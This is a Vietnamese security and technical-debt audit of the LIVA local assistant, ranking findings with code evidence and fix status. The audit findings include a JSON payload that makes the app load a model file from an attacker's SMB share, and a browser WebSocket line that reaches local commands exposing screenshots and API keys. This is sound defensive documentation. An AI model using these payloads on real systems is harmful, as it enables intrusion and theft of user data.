


# Nợ kỹ thuật và rủi ro — LIVA

[⬆ Mục lục](../README.md) · [◀ Đối chiếu tuyên bố và thực tế](01-doi-chieu-tuyen-bo-vs-thuc-te.md) · [Lộ trình sửa lỗi và nâng cấp ▶](03-lo-trinh-sua-loi-va-nang-cap.md)

---

Tài liệu này là bản kiểm kê rủi ro kỹ thuật của LIVA, xếp hạng theo mức độ, kèm **bằng chứng `file:dòng`** để bất kỳ ai cũng tự kiểm chứng lại được. Mọi mục đều được xác minh bằng đọc code thật, không suy đoán từ tài liệu.

Nhãn trạng thái dùng xuyên suốt bộ tài liệu:

- **[OK]** — đang chạy thật trên đường đi mặc định.
- **[MỘT PHẦN]** — có code, nhưng bị tắt mặc định / opt-in bằng env / chưa nối dây đầu-cuối.
- **[THIẾU]** — chưa có, hoặc chỉ là stub trả literal.

---

## 0. Tóm tắt điều hành

| Mức | Số mục | Đã khép | Bản chất chủ đạo |
|---|---|---|---|
| **CRITICAL** | 3 | **3/3** (còn nợ có chủ đích) | Bề mặt tấn công từ xa qua trình duyệt (C1, C2) + mã hoá fail-open (C3) |
| **HIGH** | 7 | **7/7** (6 vá + 1 hạ mức) | Lỗi chắc chắn xảy ra khi dùng thật (H3, H6), khoảng cách kiến trúc↔hành vi (H7), sandbox giả (H1) |
| **MEDIUM** | 10 | M4 đã khép; **M10 mới thêm 26/07**; M1–M3, M6–M9 *chưa rà lại* | Chất lượng vận hành: CI không gate, hai entry point lệch, test sai chỗ, **truy hồi tool loại bớt tool khỏi prompt** |
| **LOW** | 12 | *chưa rà lại đợt 26/07* | Dọn dẹp, code chết, tài liệu lệch code |

> **Đọc bảng trên cho đúng.** "Đã khép" **không** có nghĩa là rủi ro biến mất — nghĩa là **chế độ hỏng cụ thể được mô tả ở mục đó** đã không còn tái hiện được, và mỗi mục ghi rõ phần **còn tồn** ngay tại chỗ. Bốn khoản nợ còn lại đáng nhớ, tất cả đều là **lựa chọn có chủ đích chứ không phải sót**:
>
> | Mục | Còn tồn |
> |---|---|
> | C1 | Lớp 2 (token phiên) **cố ý không làm** — với kẻ tấn công đã có mặt trên localhost, token cùng máy không tạo ranh giới thật. Allow-list lệnh theo kênh vẫn chưa có |
> | C3 | `DEFAULT_ENCRYPTION_KEY` vẫn là đường thoát cho dữ liệu dev: cảnh báo lớn, **không** chặn boot |
> | H4 | **Chưa có bước xác nhận cho hành động vật lý** — bắt buộc phải có trước khi nối phần cứng smart home thật |
> | H5 | Thiếu `vec0` vẫn chặn boot; chỉ khác là nay báo rõ cách sửa, chưa có chế độ suy giảm memory-only |
>
> **MEDIUM và LOW chưa được rà lại trong đợt 26/07/2026.** Ghi rõ ở đây thay vì để người đọc tưởng cả tài liệu vừa được xác minh — xem [U4 trong backlog nâng cấp](05-nang-cap-toan-dien.md).

**Điểm tốt cần ghi nhận trước** (đã kiểm chứng, không phải lời khen xã giao):

> **Không có rò rỉ bí mật trong git.** `data/credentials.json`, `data/token.json`, `data/liva_vault.json`, `data/user_profile.json` đều tồn tại trên đĩa nhưng bị chặn bởi `.gitignore:21-26`, và `git log --all -- <4 file này>` trả về **rỗng** (chưa từng commit). Chỉ 4 file trong `data/` được track: `liva-config.json`, `models.config.json`, `skill_whitelist.json`, `research/BUG_ANALYSIS_2026-05-14.md` — đã đọc, không chứa secret (`cloudApiKey: ""`).

### Chuỗi tấn công đáng lo nhất (C1 → C2)



---

## 1. CRITICAL

| # | Vấn đề | Bằng chứng | Hệ quả | Đề xuất |
|---|---|---|---|---|
| **C1** ⚠️ **LỚP 1 ĐÃ SỬA 21/07/2026** | **WebSocket 8002 không xác thực, không kiểm `Origin` → Cross-Site WebSocket Hijacking** | `main.rs:446-492` `accept_hdr_async` **chỉ kiểm `req.uri().path()`**; `main.rs:580-587` `OP_AUTH_HANDSHAKE` chỉ **echo**; `websocket.rs#handle_ws_connection` `IpcRequest` → thẳng `handle_command` **không allow-list** | WebSocket **không** chịu Same-Origin Policy. Bất kỳ tab trình duyệt nào cũng có thể `new WebSocket("ws://127.0.0.1:8002/ws")` và: chụp + rút ảnh màn hình (`vision:capture`), đọc `ai.cloudApiKey` (`get_config`), đọc bộ nhớ/hồ sơ cá nhân, gửi tin Telegram, ghi đè config. Bind `127.0.0.1` **không bảo vệ** trước lớp tấn công này | **Đã làm (F4 lớp 1):** allow-list `Origin` qua `origin_allowed` (`lib.rs`), handshake sai origin bị trả **403 ngay ở tầng HTTP** (`main.rs:478`) chứ không phải hoàn tất rồi đóng. Mặc định cho `localhost:5173`, `127.0.0.1:5173`, `tauri://localhost`, `https://tauri.localhost`; mở rộng bằng `LIVA_WS_ALLOWED_ORIGINS`. 6 unit test gồm ca tấn công thật (`https://evil.example`, `null`, và các biến thể tiền tố/hậu tố như `http://localhost:5173.evil.example`). **CHƯA làm (lớp 2 — token phiên):** xem phân tích ở dưới, giá trị thực tế rất thấp so với thiết kế ban đầu. **CHƯA làm:** allow-list lệnh theo kênh |
| ~~**C2**~~ ✅ **ĐÃ SỬA 22/07/2026** | **`llm:swap_model` nạp file tùy ý từ đường dẫn client cung cấp** | `validate_model_path` (`lib.rs:557`, hàm thuần có test) bắt buộc: đuôi `.gguf` (không phân biệt hoa thường), **nằm trong** thư mục model đã cấu hình, chặn `..` kể cả dạng lồng `sub/../../x.gguf` | Áp ở **hai** chỗ, không chỉ một: nhánh `llm:swap_model` (`lib.rs:2234`) **và** điểm nạp thật `load_configured_router_model` — nên `update_config` ghi `ai.routerModel` độc hại cũng bị chặn khi reload. Đây là điểm đáng ghi nhận: vá ở cả đường ghi cấu hình chứ không chỉ đường lệnh trực tiếp | `validate_model_path_tests` (`lib.rs#validate_model_path_tests`) phủ đúng các payload nêu ở cột bằng chứng cũ. UI không gọi `swap_model` nên vá không phá client nào |
| ~~**C3**~~ ✅ **ĐÃ SỬA 22/07/2026 (còn 1 khoản nợ có chủ đích)** | **`EncryptionEngine`: khoá mặc định công khai, không KDF, giải mã fail-open** | Định dạng **v2** có version-tag (`V2_PREFIX = "v2:"`, `crypto.rs:13`): **HKDF-SHA256 + salt 16 byte mỗi bản ghi** (`derive_key`, `crypto.rs:114`), `info` cố định ràng khoá vào đúng mục đích. `try_decrypt` (`crypto.rs:233`) trả `Result<_, DecryptError>`; `read_fact` trả `FactRead::Ok | FactRead::Locked{reason}` | **Hết fail-open.** Sửa DB → `AuthFailed` → `FactRead::Locked`, **không** trả rác vào prompt; đổi khoá → bản ghi cũ hiện là *khoá-chết* có nhãn chứ không im lặng thành hex. `Locked` **không mang ciphertext ra ngoài**, chỉ `reason` thô, nên caller log/serialize cũng không rò. Khoá boot per-machine qua DPAPI + `resolve_and_rekey` | **Khoản nợ CÒN LẠI, có chủ đích:** `DEFAULT_ENCRYPTION_KEY` (`crypto.rs:16`) vẫn tồn tại làm đường thoát cho dữ liệu dev — dùng nó thì **cảnh báo lớn một lần** (`crypto.rs:95`) nhưng **không chặn boot**. Đây là quyết định đã ghim, không phải sơ suất; xem §8 của [backlog nâng cấp](05-nang-cap-toan-dien.md) |

### C1. WebSocket 8002 không xác thực → lộ toàn bộ tập lệnh IPC

**Bằng chứng chi tiết:**

- `liva-native-core/src/main.rs:446-492` — `start_websocket_server`: `accept_hdr_async` với callback **chỉ kiểm `req.uri().path() == "/ws"`** (`main.rs:468-472`). Không đọc header `Origin`, không token, không handshake bí mật.
- `main.rs:580-587` — `OP_AUTH_HANDSHAKE` (0x00) chỉ **echo lại payload** của client, không xác thực gì.
- `websocket.rs#handle_ws_connection` — nhánh `Message::Text` fallthrough parse `IpcRequest { id, command, payload }` rồi gọi thẳng `handle_command(state, &req.command, req.payload, ...)`. **Không allow-list.**
- `main.rs:953-956` — nhánh `_ =>` của legacy-event cũng gọi `handle_command` với `event_name` tùy ý.
- Bề mặt lộ ra (`liva-native-core/src/lib.rs`): `vision:capture` (`lib.rs:249-273`, trả **ảnh màn hình base64 nguyên frame**), `get_config` (`lib.rs:351-358`, đọc `data/liva-config.json` **nguyên văn**, tức là `ai.cloudApiKey`, `ai.cloudBaseUrl`), `get_memory_data`, `get_user_profile`, `memory:get_fact`, `telegram:send_text`, `update_config`, `llm:swap_model`.
- `main.rs:830-895` — sự kiện `user_voice_command` chứa chuỗi `"màn hình"`/`"screen"` sẽ tự chụp màn hình (`capture_for_vision()`) và **stream mô tả nội dung màn hình về client**.

**Hệ quả:** WebSocket **không** chịu Same-Origin Policy. Bất kỳ tab trình duyệt nào người dùng mở (quảng cáo, trang bất kỳ) đều có thể mở kết nối và ngay lập tức: chụp + rút ảnh màn hình, đọc API key cloud, đọc toàn bộ bộ nhớ dài hạn/hồ sơ cá nhân, gửi tin Telegram mạo danh, ghi đè config. Bind mặc định `127.0.0.1` (`main.rs:452`) **không hề bảo vệ** trước lớp tấn công này. Nếu ai đặt `LIVA_SERVER_HOST=0.0.0.0` thì thành RCE-adjacent trên LAN.

**Đề xuất:** (1) Bắt buộc kiểm `Origin` — chỉ chấp nhận `null`/`tauri://localhost`/`http://localhost:5173`; từ chối mọi origin khác ở tầng `accept_hdr_async`. (2) Sinh token phiên ngẫu nhiên lúc khởi động, ghi vào file chỉ user đọc được, client phải gửi trong `OP_AUTH_HANDSHAKE` — và **thực sự kiểm** thay vì echo. (3) Allow-list lệnh theo kênh: kênh WS chỉ được gọi tập lệnh voice/UI; các lệnh nhạy cảm (`vision:*`, `llm:swap_model`, `update_config`, `telegram:*`) chỉ qua IPC Tauri.

#### C1.1 Bề mặt lộ ra ĐANG LỚN DẦN — cập nhật 26/07/2026 (U19)

Lớp 1 (allow-list `Origin`) đã chặn trang web; đề xuất (3) — **allow-list lệnh theo kênh** — thì
vẫn **CHƯA làm**. Điều đó cũ, nhưng có một biến số mới: **danh mục `mcp:call_tool` đang mở rộng.**

U19 (`6b5b87b`) thêm `control_volume` và `control_media` (`integrations/os_control.rs`) vào
`NativeMcpServer`, đưa danh mục từ 4 → **6 tool**. Đây là lần đầu tập lệnh IPC có tool **tổng hợp sự
kiện nhập liệu của OS** (`SendInput` với phím đa phương tiện) chứ không chỉ đọc/ghi dữ liệu của
chính LIVA.

**Một chi tiết dễ đọc nhầm, cần nói rõ:** ~~`NATIVE_AUTOEXEC` trong `llm/tool_calling.rs` **không
phải hàng rào của `mcp:call_tool`** … bất kỳ client nào nối được vào lớp lệnh đều gọi được cả 6
tool, bất kể `LIVA_TOOL_CALLING` bật hay tắt.~~

**ĐÃ SỬA 26/07/2026** — chẩn đoán trên đúng ở thời điểm viết, và là lý do bản vá tồn tại. Nay cả
hai nhánh gọi tool trực tiếp đều qua `llm::tool_calling::guard_direct_call`:

| Nhánh | Trước | Nay |
|---|---|---|
| `mcp:call_tool` (6 tool nội bộ) | không kiểm gì | `write_markdown` **bị chặn**; `read_markdown` / `search_vault` / `control_smarthome` / `control_volume` / `control_media` vẫn qua |
| `mcp_client:call_tool` (**mọi** tool trên **mọi** server MCP ngoài) | không kiểm gì | mặc định **TỪ CHỐI HẾT** |

Nhánh thứ hai nghiêm trọng hơn nhánh mà mục này ban đầu nêu: nó tới được tiến trình `npx`/`docker`
của người lạ với đúng quyền chúng có. Mở bằng `LIVA_MCP_AUTOEXEC=server/tool` (hoặc `server/*`), và
thông báo lỗi in ra **chính xác** chuỗi cần đặt.

Đo, không suy luận: bỏ dòng `LIVA_MCP_AUTOEXEC` khỏi `scripts/verify-mcp-real.mjs` làm 4 mục
`call_tool` đỏ ngay (15/15 → 11/15); đặt lại thì xanh. Cộng hai test hồi quy trong
`tests/mcp_client_e2e.rs` chứng minh hàng rào nằm **trong arm** chứ không chỉ tồn tại như một hàm.

**Bản vá này KHÔNG đóng §C1.** Nó chỉ đóng hai lệnh MCP; các lệnh khác trên cùng đường WS 8002
không xác thực vẫn mở (`llm:swap_model` là §C2). Đề xuất (3) — allow-list lệnh theo kênh — **vẫn
chưa làm**, và nhận xét ở gạch đầu dòng cuối vẫn nguyên giá trị.

#### C1.2 Bề mặt lại lớn thêm — rung G2 thêm 5 lệnh, một lệnh GHI ĐĨA

Cùng ngày, rung G2 (kho skill cục bộ) thêm vào **đúng lớp lệnh này**: `skills:sync` ·
`skills:list` · `skills:search` · `skills:history` · `skills:pin_ids`. Bốn lệnh đầu chỉ đọc;
**`skills:pin_ids` ghi file** (`.skill_id`) vào từng thư mục skill.

**Một chỗ đã suýt tệ hơn hẳn.** Bản đầu của năm arm này nhận `payload.path` — nghĩa là kẻ gọi chọn
được thư mục để LIVA **quét** và, với `pin_ids`, **ghi vào**. Trên một socket chưa xác thực, đó là
traversal do kẻ gọi điều khiển: một oracle đọc file tên `SKILL.md` ở đường dẫn tuỳ ý, cộng khả năng
tạo file ở thư mục tuỳ ý (giới hạn ở tên `.skill_id`, trong thư mục đã có `SKILL.md`).

Đã bỏ hẳn `path` khỏi payload. Gốc kho chỉ đến từ `LIVA_SKILLS_DIR` (mặc định `skills`) — **cấu
hình là việc của người vận hành, không phải của một field JSON đến từ socket.**

Còn lại, nói đúng mức:

- Năm lệnh vẫn **gọi được bởi bất kỳ client nào lọt allow-list `Origin`**, y như mọi lệnh khác.
- Thiệt hại của `skills:pin_ids` bị chặn hai lớp: chỉ ghi trong cây `LIVA_SKILLS_DIR`, chỉ tên
  `.skill_id`, và chỉ cho thư mục **chưa có** file đó. Không ghi đè gì.
- `skills:search` trả `name`/`description` đọc từ đĩa. Với gốc kho do người vận hành đặt, đó không
  còn là oracle đọc file tuỳ ý.

**Xu hướng mới là điều đáng lo, không phải từng lệnh.** Trong một ngày: 4 → 6 tool (U19), rồi
+5 lệnh (G2), rồi hai hàng rào allowlist phải thêm vào sau (§C1.1). Mỗi lần đều "nhỏ và có biện
minh". Đề xuất (3) — **allow-list lệnh theo kênh** — nay là thứ khiến những lần sau không phải
tranh luận lại từ đầu; nó vẫn **chưa làm**, và mỗi rung mới làm việc trì hoãn đắt thêm.

Đánh giá mức độ, không thổi phồng:

- **Không phải lỗ hổng mới.** Đối tượng chạm tới được là *tiến trình cục bộ dưới cùng user* — đúng
  đối tượng mà phân tích F4 lớp 2 đã kết luận là token-trong-file không chặn nổi. Trang web vẫn bị
  lớp 1 chặn bằng `Origin`.
- **Nhưng bề mặt đổi chất.** Trước đây kịch bản xấu nhất là *rò dữ liệu* (ảnh màn hình, API key, ký
  ức). Nay có thêm *tác động ra ngoài tiến trình*: gõ phím đa phương tiện vào shell Windows. U19
  chọn đúng ranh giới — chỉ tool **đảo ngược được** mới vào `NATIVE_AUTOEXEC` — và ranh giới đó ổn.
  Rủi ro không nằm ở hai tool này mà ở **tiền lệ**: tool thứ bảy không đảo ngược được mà lọt vào
  danh mục sẽ thừa hưởng đúng đường đi không có allow-list này.
- ⇒ **Đề xuất (3) nay đắt hơn khi trì hoãn.** Nên làm trước khi thêm tool OS tiếp theo, không phải
  sau.

**Ngoài phạm vi bảo mật, một số đo cần giữ lại:** vòng G1 cộng **2 700–3 000 ms mỗi lượt chat** vì
nó thêm một lượt LLM cho *mọi* câu. Đó là lý do `LIVA_TOOL_CALLING` mặc định **TẮT**, và là con số
phải đặt lên bàn mỗi khi ai đó đề nghị bật mặc định.

### C2. `llm:swap_model` nạp file tùy ý từ đường dẫn do client cung cấp

**Bằng chứng:** `lib.rs:1265-1281`

```rust
let model_path_str = payload["model_path"].as_str().ok_or_else(|| "Missing 'model_path'")?;
let model_path = std::path::Path::new(model_path_str);
...
llm_manager.swap_model(model_path, n_ctx, n_gpu_layers, vocab_only).await?;
```

Không canonicalize, không kiểm prefix, không giới hạn trong `ai.localModelsDir`. So sánh: MCP có guard chống traversal (`mcp/server.rs:66-77`) — ở đây thì **không có gì**.

**Hệ quả:** Ghép với C1, trang web bất kỳ đẩy `{"command":"llm:swap_model","payload":{"model_path":"\\\\attacker\\share\\evil.gguf"}}` → LIVA tải file từ SMB của kẻ tấn công và ném vào parser GGUF viết bằng C++ (llama.cpp). Đây là bề mặt memory-corruption trực tiếp. Ngay cả không có C1, `update_config` (`lib.rs:404-427`) cũng cho ghi `ai.localModelsDir` + `ai.routerModel` tùy ý rồi `load_configured_router_model(state, true)` tự nạp (`lib.rs:419-424`) — `configured_router_model_path()` chỉ làm `Path::new(dir).join(model)` (`lib.rs:137`), không kiểm gì.

**Đề xuất:** Canonicalize và bắt buộc `starts_with(models_root)`; chỉ nhận **tên file** (không nhận đường dẫn), tra trong thư mục model đã cấu hình; từ chối UNC/absolute.

### C3. `EncryptionEngine` — khóa mặc định công khai, không KDF, giải mã **fail-open**

**Bằng chứng:** `liva-native-core/src/crypto.rs:15-21`

```rust
pub fn new(key_str: &str) -> Self {
    let mut key = [0u8; 32];
    let bytes = key_str.as_bytes();
    let len = bytes.len().min(32);
    key[..len].copy_from_slice(&bytes[..len]);   // không KDF, pad bằng 0x00
    Self { key }
}
```

- Mặc định khóa: `"00000000000000000000000000000000"` tại `main.rs:62-63` **và** `liva-desktop/src-tauri/src/lib.rs:270-271` → key thực = `0x30` lặp 32 lần, ai cũng đoán được.
- Passphrase ngắn (ví dụ `"liva"`) → key = `6c 69 76 61` + **28 byte 0x00**, entropy ~32 bit.
- `crypto.rs:50-88` — `decrypt()` trả `String`, **không phải `Result`**. Mọi lỗi (hex sai, IV sai độ dài, **xác thực GCM thất bại**) đều `return text.to_string()` — trả lại chính ciphertext. Không log, không phân biệt được. Xác minh lại tại chỗ: cả 5 nhánh `Err(_) => return text.to_string()` (`crypto.rs:57-67`), guard `iv_bytes.len() != 16 || tag_bytes.len() != 16` (`crypto.rs:69-71`) và nhánh cuối `Err(_) => text.to_string()` (`crypto.rs:86`) đều fail-open.

**Hệ quả:** (a) DB `facts.value` coi như không mã hoá với cấu hình mặc định. (b) Toàn vẹn **không bao giờ được thực thi**: kẻ tấn công sửa DB → decrypt "thành công" trả về chuỗi rác, chuỗi đó đi thẳng vào prompt LLM. (c) Đổi `LIVA_ENCRYPTION_KEY` → mọi fact cũ im lặng biến thành ciphertext hex nhồi vào prompt, không cảnh báo.

**Đề xuất:** Dùng KDF thật (Argon2id/HKDF) từ passphrase + salt lưu trong DB; **bỏ default key** — thiếu key thì fail-fast lúc boot; đổi chữ ký thành `decrypt(&self) -> Result<String, DecryptError>` và bắt caller xử lý; thêm version-tag vào ciphertext để phát hiện đổi khóa.

**Tiến độ (22/07/2026) — phần lớn C3 đã xử lý:**

1. **KDF THẬT + salt.** `encrypt` nay sinh định dạng **v2**: `v2:salt:iv:tag:cipher`, khoá = **HKDF-SHA256(passphrase, salt ngẫu nhiên mỗi bản ghi)** thay cho kiểu cũ lấy thẳng bytes key pad `0x00`. Hai plaintext giống nhau ra ciphertext khác nhau. (`crypto.rs`, `hkdf`+`sha2`.)
2. **Nâng cấp dữ liệu cũ KHÔNG mất mát.** `db::migrate_facts_encryption` chạy một lần lúc boot (`main.rs`, Tauri `lib.rs`): giải mã fact v1 bằng khoá cũ rồi **mã hoá lại thành v2**, trong một transaction. Idempotent; plaintext cũ để nguyên; dữ liệu hỏng/sai khoá KHÔNG đụng (tránh mất bản gốc). Test khoá lại cả bốn nhánh.
3. **Primitive fail-CLOSED** `try_decrypt(&self) -> Result<String, DecryptError>` phát hiện sửa đổi (`AuthFailed`) — có test lật một byte.

**Vá thêm sau vòng PHẢN BIỆN ĐỐI KHÁNG (14 agent tấn công, 22/07/2026):**

4. **Đường ĐỌC rò ciphertext khi sai khoá → mất-dữ-liệu.** Phản biện bắt được: `get_fact`/`get_memory_data` dùng `decrypt` fail-open. Đổi `LIVA_ENCRYPTION_KEY` (vd lần đầu đặt khoá sau khi chạy bằng mặc định) → AuthFailed → trả **nguyên ciphertext** làm value, chảy vào prompt LLM + UI không cảnh báo; nếu bị `set_fact` ghi lại thì lồng 2 lớp, **mất bản gốc vĩnh viễn** dù khôi phục đúng khoá. **Đã vá:** hai đường đọc dùng `decrypt_read` — sai khoá/giả mạo (`AuthFailed`/`NotUtf8`) trả `""` + WARN, KHÔNG rò ciphertext; plaintext-lookalike ngắn (`NotEncrypted`/`BadFormat`) vẫn passthrough. Có test. **Đánh đổi cố ý (phản biện vòng 2):** plaintext cũ *tình cờ đúng khuôn v1 hoàn chỉnh* `<32hex>:<32hex>:<hex chẵn>` (vd 2 mã MD5 nối bằng `:`) qua kiểm định dạng, fail AES-GCM → `AuthFailed` → trả `""` thay vì passthrough. KHÔNG khử được: tại `AuthFailed`, "plaintext giống ciphertext" và "ciphertext thật sai khoá" bất khả phân; ưu tiên KHÔNG rò ciphertext (ca đổi khoá phổ biến) hơn giữ plaintext-lookalike (cực hiếm với facts ngôn ngữ tự nhiên). Bản gốc vẫn trên đĩa, chỉ mất nếu người dùng thấy `""` rồi `set_fact` đè. Đã khoá bằng test `decrypt_read_plaintext_giong_v1_tra_rong` — coi là giới hạn có chủ đích, không phải bug hở.
5. **Migration lost-update giữa hai tiến trình.** Nếu gateway + Tauri cùng chạy trên default DB, tiến trình B đọc v1 (bước 1, đã nhả lock) rồi tiến trình A ghi `set_fact` bản mới; bước 2 của B `UPDATE ... WHERE key` **đè mất bản mới**. **Đã vá:** `UPDATE ... WHERE key=? AND value=?bản_đã_đọc` — value đổi thì khớp 0 dòng, bỏ qua. Có test.
6. **Khoá mặc định biến KDF thành bảo mật ảo.** HKDF với passphrase là hằng số công khai `"0"×32` thì khoá dẫn xuất ai cũng tính được. **Đã giảm nhẹ:** `EncryptionEngine::new` **cảnh báo LỚN** khi dùng khoá mặc định (không còn im lặng).

**Vá thêm — BỎ KHOÁ MẶC ĐỊNH + fail-closed (22/07/2026, thiết kế qua workflow phản biện đối kháng):**

7. **Bỏ khoá mặc định — khoá thiết bị DPAPI + rekey không mất dữ liệu.** Cả hai đường boot (`main.rs`, vỏ Tauri) không còn fallback `"0"×32`; thay bằng `resolve_and_rekey` (`lib.rs`, dùng chung chống drift): khoá thật lấy từ `LIVA_ENCRYPTION_KEY` (nếu ≠ mặc định) → **khoá thiết bị 32 byte niêm phong bằng Windows DPAPI** (`keystore.rs`, sinh mới nếu chưa có, ghi atomic `create_new`). Khoá mặc định KHÔNG bao giờ là khoá GHI nhưng là **khoá phụ để CỨU** cùng `LIVA_ENCRYPTION_KEY_OLD`: `db::rekey_facts_encryption` giải bằng chúng rồi mã lại dưới khoá thật — máy đang chạy khoá mặc định tự chuyển facts sang khoá thật lúc boot, **không mất**. Tiêu chí idempotent = "live giải được", KHÔNG phải `starts_with("v2:")` (bẫy mất-dữ-liệu). Khoá sinh mới được **escrow 1 lần** (stderr / dialog Tauri) để backup, khôi phục qua `LIVA_ENCRYPTION_KEY`. Non-Windows: env-only.
8. **`get_fact` fail-CLOSED có phân loại.** `read_fact`/`FactRead::{Ok,Locked}` (`crypto.rs`) thay `decrypt_read` gộp `""`; `get_memory_data` gắn cờ `locked` per-fact (value luôn `""`, không rò ciphertext) + `lockedFactsCount`, không rớt hàng; UI hiện badge 🔒 + banner. **Chốt chống-mất ở TẦNG GHI, không phải UI:** `set_fact` **backup-before-overwrite** (sao lưu ciphertext locked vào `facts_locked_backup` trước khi đè — chặn consolidation/LLM đè bản gốc); `delete_memory_fact` (arm MỚI) **từ chối xoá hàng locked** ở tầng lệnh (cả caller không-UI). Toàn bộ có test; quyết định đánh đổi (kể cả plaintext-lookalike-v1) gộp một chỗ `read_fact`.

**CÒN LẠI (cố ý):** kho plaintext ngoài `facts` (`vectors_meta.content`, FTS, checkpoint và `turn_layer_nodes` nếu dùng sau này) chưa mã hoá — "strict" hiện chỉ đúng cho bảng `facts`. Writer event-ledger tự động để `rawUserMsg/rawAiReply=NULL`, nên không tạo thêm bản plaintext ở `events`. Escrow: nếu người dùng chọn KHÔNG backup thì DPAPI vẫn là điểm hỏng đơn khi cài lại Windows.

Định dạng ciphertext (`iv:tag:data` hex), phạm vi mã hoá (chỉ 3 chỗ) và sơ đồ mã hoá đầy đủ nằm ở tài liệu tầng dữ liệu.

> 📌 Nguồn đầy đủ: [Tầng dữ liệu và bảo mật](../01-ban-ve/07-tang-du-lieu-va-bao-mat.md)

---

## 2. HIGH

| # | Vấn đề | Bằng chứng | Hệ quả | Đề xuất |
|---|---|---|---|---|
| **H1** ⬇️ **HẠ MỨC 22/07/2026** | `evolution::Sandbox` **không phải sandbox** | `evolution/sandbox.rs:40-50` — `Command::new("cargo").arg("test")`. Cô lập duy nhất: `timeout(30s)` (`:104`). Không container, job object, hạ quyền, giới hạn network/fs | Nếu vòng self-correction từng được nối dây, code do LLM sinh sẽ chạy **toàn quyền user**. **Từ 22/07/2026 module nằm sau `#[cfg(feature = "experimental")]`** (`lib.rs:14-15`) ⇒ **không còn được biên dịch vào build mặc định**, và bộ test của nó **không còn chạy trong CI** (chỉ compile-check). Rủi ro tồn dư = ai đó bật `--features experimental` rồi nối dây mà quên | Nếu có ngày nối dây thật: đổi tên `TestRunner` + ghi rõ "KHÔNG cô lập", hoặc bắt buộc Windows Job Object + hạ quyền + chặn network **trước** khi gỡ feature-gate |
| ~~**H2**~~ ✅ **ĐÃ SỬA 23/07/2026** | Stronghold vault mã hoá bằng mật khẩu/salt hardcode | `liva-desktop/src-tauri/src/lib.rs:123-129`, lặp `:384`. Snapshot `liva_vault.app` mở được bằng hằng số có trong mã nguồn công khai; salt cố định → rainbow table dùng chung | **Đã vá (thiết kế qua workflow phản biện, người dùng chốt 4 QĐ):** bỏ hardcode ở đường GHI — password/salt vault nay là **bí mật per-machine niêm phong DPAPI** (`keystore::load_or_create_vault_secret` → `.vault_secret` RIÊNG, cô lập khỏi khoá DB). `derive_vault_key` dùng chung Argon2 cho legacy+mới (cảnh báo không bump `rust-argon2`). Vault cũ **migrate lossless** (đọc bằng `legacy_vault_key`, enumerate `store.keys()`, ghi `.new` → verify → rename atomic giữ `.legacybak`); lỗi/mất DPAPI → **fail-soft reset** (sao lưu + báo nhập lại API key — vault re-enterable, khác facts DB). Gỡ hẳn plugin `tauri_plugin_stronghold` (literal salt cuối) + capability `stronghold:default`. Env `LIVA_STRONGHOLD_PASSWORD/SALT` giữ contract cũ (lenient). 230 lib+18 bin test pass. **E2E ĐÃ KIỂM (23/07):** 2 test dùng Stronghold thật — vault legacy 2 API key → migrate → key bảo toàn dưới khoá mới, `.legacybak` giữ, khoá legacy hết mở; vault rỗng → migrate từ chối. (e2e bắt được 1 giả định sai về `Stronghold::new`.) Migration vẫn bọc fail-soft |
| ~~**H3**~~ ✅ **ĐÃ SỬA 21/07/2026** | **Không có guard `prompt_tokens > n_ctx`, lịch sử hội thoại KHÔNG bao giờ bị cắt** | `llm/engine.rs:260-278` prefill `decode` toàn bộ **không so `n_ctx`**; `prune_kv_cache` chỉ gọi trong vòng sinh token; `agent/graph.rs:156-172` duyệt **toàn bộ** `state.messages` | Sau vài chục lượt, prompt vượt 4096 token → `decode` lỗi; trợ lý "chết" giữa cuộc trò chuyện dài | **Đã sửa hai lớp (F2):** (1) `AgentState::trim_history()` (`agent/state.rs:12`) giữ tin `system` + `LIVA_MAX_HISTORY_MESSAGES` tin gần nhất, gọi ở `agent/graph.rs` cả trước khi dựng prompt lẫn sau khi thêm câu trả lời (chỗ sau ngăn `agent_checkpoints` phình sau F1); (2) guard cứng `check_prompt_fits` (`llm/engine.rs:82`) trong `generate_completion` — chặn cho **cả 6 call site**, biến crash khó hiểu thành lỗi có hướng khắc phục. 12 unit test phủ cả hai lớp, gồm ca tràn số. **Còn tồn:** chưa chạy hội thoại 50–100 lượt thật; guard mới chỉ kiểm bằng unit test trên hàm thuần |
| ~~**H4**~~ ✅ **ĐÃ KHÉP 26/07/2026** | Router intent dùng `contains()` → kích hoạt tool sai | `route_intent` (`agent/graph.rs`) nay khớp **token trọn vẹn** (`has_word`/`has_phrase`) và có từ khoá tiếng Việt — vá cả dương tính giả lẫn **âm tính giả** ("bật đèn giúp mình" trước đây không khớp gì) | Chuỗi "định tuyến sai → hành động vật lý" đứt ở **hai chỗ độc lập**: (1) khớp token + test hồi quy ép `"back on track"`, `"coffee"`, `"office light"` → `Chat`; (2) `smart_home::execute` không còn báo thành công giả | **Còn tồn:** vẫn là định tuyến từ khoá (tool-calling LLM có nhưng **mặc định TẮT**); **xác nhận cho hành động vật lý CHƯA có** — cần trước khi nối phần cứng thật. Việc tự chụp màn hình không xác nhận theo dõi ở C1 |
